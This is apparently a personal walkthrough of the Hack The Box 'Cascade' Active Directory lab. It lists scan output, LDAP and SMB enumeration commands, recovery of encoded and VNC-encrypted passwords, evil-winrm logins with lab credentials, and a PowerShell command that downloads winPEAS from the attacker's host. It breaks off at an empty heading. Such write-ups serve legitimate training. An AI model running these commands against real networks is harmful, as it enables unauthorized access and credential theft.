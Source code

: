 ### Scan
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
```
### Enumeration
no zone transfer
no smb (map or client)
enum4linux users hit (via rpcclient) ![Image](/assets/Screenshot 2024-09-16 at 1.37.17 PM.png)
group hit (via rpcclient)![Image](/assets/Screenshot 2024-09-16 at 1.39.11 PM.png)
Password Policy Info ![Image](/assets/Screenshot 2024-09-16 at 1.37.53 PM.png)
Dump users into a file, grep and clean, then use script to asrep roast.
ASREP roast came back with nothing.
weak password policy, want to try and crack... Too much. Enumerate thoroughly, exploit simply. I'm missing something
LDAP dump with `ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182`
Reallllllly look. Ryan encoded password. Looks like BASE64 ![Image](/assets/Screenshot 2024-09-16 at 2.20.37 PM.png)
Decode with online decoder, password is `rY4n5eva`
Time to re-enumerate shares with `smbmap -H cascade.htb -u "user" -p "pass"`
![Image](/assets/Screenshot 2024-09-16 at 2.32.54 PM.png)
Only share we have access to is IT. Interesting email, log files, but really interesting s.smith files
![Image](/assets/Screenshot 2024-09-16 at 2.40.59 PM.png)
Email disclosing TempAdmin w/ possible brute password ![Image](/assets/Screenshot 2024-09-16 at 2.42.21 PM.png)
Hex password and possible VNC service escalation![Image](/assets/Screenshot 2024-09-16 at 2.49.23 PM.png)
Regular hex decoding didn't work, but there is a VNC decrypt tool for it. Which other box used this?
Encode and create the crackable file, as the tool only takes ciphertext: `echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc.psd`
`sT333ve2` Password ![Image](/assets/Screenshot 2024-09-16 at 3.08.13 PM.png)
We've got two sets of credentials now.  `s.smith:sT333ve2` and `r.thompson:rY4n5eva`
Re-Enumerate
Steve's credentials grant us access to Audit$ share (smbmap script like above)![Image](/assets/Screenshot 2024-09-16 at 3.12.16 PM.png)
Gain access by `smbclient //10.10.10.182/Audit$ --user s.smith%sT333ve2`
Download two files![Image](/assets/Screenshot 2024-09-16 at 3.19.16 PM.png)
evilwinrm as smith `evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'`![Image](/assets/Screenshot 2024-09-16 at 3.20.01 PM.png)
Local Proof![Image](/assets/Screenshot 2024-09-16 at 3.21.01 PM.png)
`USER:8685e71cafb4e133d985dc08c223401c`

Big Oof trying to transfer with SMB and CertUtil. Crashed box twice. Python worked though. Serve WinPEAS
`powershell "Invoke-WebRequest -UseBasicParsing 10.10.14.3:80/winPEASany.exe -OutFile winPEAS.exe`

Serve bloodhound ingester remotely as well. `bloodhound-python -d cascade.local -u s.smith -p sT333ve2 -ns 10.10.10.182 -c all`

Nothing from bloodhound as far as I can tell. WinPEAS?






### Initial Access